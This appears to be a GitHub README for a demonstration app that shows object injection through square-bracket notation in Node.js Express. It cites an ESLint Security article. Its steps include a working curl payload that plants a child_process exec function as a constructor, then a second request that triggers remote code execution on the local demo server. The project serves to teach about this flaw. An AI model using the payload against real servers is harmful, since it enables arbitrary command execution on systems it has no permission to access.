 # Express-object-injection

A prototype to demonstrate the dangers of square bracket notation using object injection attack. It is inspired by this [article](https://github.com/nodesecurity/eslint-plugin-security/blob/master/docs/the-dangers-of-square-bracket-notation.md) from ESLint Security. This article was originally written by Jon Lamendola for [^Lift Security](https://web.archive.org/web/20150430062816/https://blog.liftsecurity.io/2015/01/15/the-dangers-of-square-bracket-notation).

## Step 0

* Install nodejs

* clone repository

```console
$ git clone https://github.com/0xdbe/express-object-injection.git
cd express-object-injection
```

* Install express

```console
$ npm install
```
* Start application

```console
$ node index.js
```

## Step 1

* Setting a malicious fuction as constructor

```console
$ curl http://localhost:3000/api/user -H 'Content-Type: application/json' --data '["constructor", "var require = global.require || global.process.mainModule.constructor._load;require(\"child_process\").exec(arguments[0], console.log)"]'
```

* Call the malicious function allowing a remote code execute (RCE)

```console
$ curl http://localhost:3000/api/user -H 'Content-Type: application/json' --data '["anyVal", "date"]'
```

note: this vulnerable function is not detected by ESLint Security !!
